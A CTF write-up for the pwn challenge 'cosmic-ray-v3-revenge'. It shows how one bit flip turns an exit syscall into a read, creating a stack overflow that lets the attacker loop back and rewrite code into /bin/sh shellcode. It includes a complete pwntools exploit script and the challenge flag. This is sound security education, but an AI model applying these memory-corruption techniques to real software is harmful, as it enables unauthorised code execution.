


# cosmic-ray-v3-revenge \[493 Points] (18 Solves)
```
Ok I lied... One last dance!
```
Attached is [dist/](./dist)

---

## Writeup

Before I begin with the writeup, make sure you are familiar with the non
revenge version or read its [writeup](../cosmic-ray-v3/README.md).

Alright, so looking at the new binary, it looks like **the only thing changed is
initialization code was extracted into a function**. \
Sadly, this new function is located between `cosmic_ray` and `main`, so the old
trick will no longer work.



We cannot use the pervious trick to get infinite flips, but it's still our target:
**looping back into `cosmic_ray`.**

An interesting part of the program that annoyed me ever since I opened `cosmic-ray-v3`
(the prev version) is **the syscall**. After all, _why would there be a syscall here?_
 \
Ok so that's the `exit` syscall. We can find all the x86-64 syscalls in a table
like [this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) one.

I wrote a script to display all the possible instructions we could get from a bit flip
```py
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long
context.arch = "amd64"

def flip(num, idx):
    mask = 1 << idx

    return num ^ mask

instruction_bytes = bytes.fromhex(input("Instruction bytes: ").replace(" ", ""))
instruction_int = bytes_to_long(instruction_bytes)
log.info(f"{hex(instruction_int)}\t{bin(instruction_int)}\t{disasm(instruction_bytes)}")

for i in range(len(instruction_bytes) * 8):
    flipped = flip(instruction_int, i)
    new_line = "\n" # We need to do this because of fstrings
    log.info(f"{hex(flipped)}\t{bin(flipped)}\t{disasm(long_to_bytes(flipped)).replace(new_line, ';')}")
```

An interesting target would be **the instruction responsible for the syscall we execute: `mov eax, 0x3c`**.
First I tried all the resulting `mov eax, SOME_NUMBER`, and checked which syscalls that would be. \
Sadly, nothing of interest was found (at least that I could exploit):
```
EAX  SYSCALL
------------
316  renameat2
61   wait4
62   kill
56   clone
52   getpeername
44   sendto
28   madvise
124  getsid
188  setxattr
```
You can find the script I wrote for this [here](./find_syscalls.py).

Then I noticed something interesting
```
[*] 0xb93c000000	0b1011100100111100000000000000000000000000	  0:   b9 3c 00 00 00          mov    ecx, 0x3c
[*] 0xba3c000000	0b1011101000111100000000000000000000000000	  0:   ba 3c 00 00 00          mov    edx, 0x3c
[*] 0xbc3c000000	0b1011110000111100000000000000000000000000	  0:   bc 3c 00 00 00          mov    esp, 0x3c
```

**We could set `edx` to be `0x3c`, instead of modifying `eax`!** What syscall will it
call then? \
`eax` is the register that, normally, stores the return value of a function. And
**after a successful flip, the returned value is `eax=0`!**
_**It's the read syscall!**_

So, flipping that bit, would execute `read_syscall(fd=$rdi, buf=$rsi, count=$rdx)`
Looking back at the assembly of the syscall, we also notice `xor rdi, rdi`, thus
`rdi` will be equal to 0. What bout `rsi`? Looking at cosmic_ray we see \
![cosmic_ray disass with (lea rcx, [rbp - 0x1e]; /* snip */; mov rsi, rcx)](./images/rsi_value.png)
_**`rsi` points to the stack!**_

**So the syscall will be `read_syscall(fd=0, buf=old_stack_var, count=0x3c)`!**
`old_stack_var` is an address on the stack which is above our stackframe (prev stackframe base - 0x1e).

### Wait, but how does it help us?
Luckily, the `old_stack_var`, is a bit less that `0x3c` bytes above the stored
`rip` of main. So we create for ourselves a mini BOF. **That's enough to loop back
to main!**

However, returning directly to `main` would mess with the stackframe, so we will
be returning to `_start` which will still call main but with correct values for `rsp`.

This also creates a problem: The shellcode we were writing to `exit@plt` actually overflows a bit into `_start`,
which wasn't a problem before, but now is. So instead of putting the shellcode in `exit@plt`,
I overwrote the **content of `deregister_tm_clones`** and then changed the final **`call exit@plt` to `call deregister_tm_clones`**

```py
io = start()

deregister_bytes = [ 0xb8, 0x10, 0x40, 0x40, 0x0, 0x48, 0x3d, 0x10, 0x40, 0x40, 0x0, 0x74, 0x13, 0xb8, 0x0, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x9, 0xbf, 0x10, 0x40, 0x40, 0x0, 0xff, 0xe0, 0x66, 0x90, 0xc3, 0x66, 0x66, 0x2e, 0xf, 0x1f, 0x84, 0x0, 0x0, 0x0, 0x0, 0x0, 0xf, 0x1f, 0x40, 0x0, 0xbe, 0x10, 0x40, 0x40, 0x0, 0x48, 0x81, 0xee, 0x10, 0x40, 0x40, 0x0, 0x48, 0x89, 0xf0, 0x48, 0xc1, 0xee, 0x3f, 0x48, 0xc1, 0xf8, 0x3, 0x48, 0x1, 0xc6, 0x48, 0xd1, 0xfe, 0x74, 0x11, 0xb8, 0x0, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x7, 0xbf, 0x10, 0x40, 0x40, 0x0, 0xff, 0xe0, 0xc3, 0x66, 0x66, 0x2e ]
deregister_address = 0x4011d0
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    io.recvuntil(b"through:\n")

    io.sendline(hex(address).encode())
    io.recvuntil(b"flip:")
    io.sendline(str(bit).encode())


def rop_to_start():
    io.recvuntil(b"Bit successfully flipped!")
    io.send(fit({
        54: 0x401190 # The address of `_start`
    })[:0x3c])


flip(0x4015fa, 6) # Flip a bit in mov eax, 0x3c to make it mov edx, 0x3c. This turns the exit syscall into read syscall

rop_to_start() # Use the read syscall to overwrite the stored RIP

# Overwrite the body of deregister_tm_clones function with /bin/sh shellcode
curr_address = deregister_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(deregister_bytes[i])[2:]

    #fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
            rop_to_start()
    curr_address += 1

# Overwrite `call exit@plt` into `call deregister_tm_clones`
desired_bytes = [0xe8, 0xa3, 0xfc, 0xff, 0xff]
exit_call_bytes = [0xe8, 0x53, 0xfc, 0xff, 0xff]
exit_call_address = 0x401528
curr_address = exit_call_address
for i in range(len(desired_bytes)):
    shellcode_bits = bin(desired_bytes[i])[2:]
    exit_bits = bin(exit_call_bytes[i])[2:]

    # Fill 0's at the start

    shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
    exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

    for i in range(len(exit_bits)):
        if exit_bits[i] != shellcode_bits[i]:
            flip(curr_address, i)
            rop_to_start()
    curr_address += 1


flip(0, -1) # Trigger exit and thus the exploit

io.interactive()
```

[solve.py](./solve.py)

**FLAG:** `vsctf{th4t5_477_f0lk5!!}`
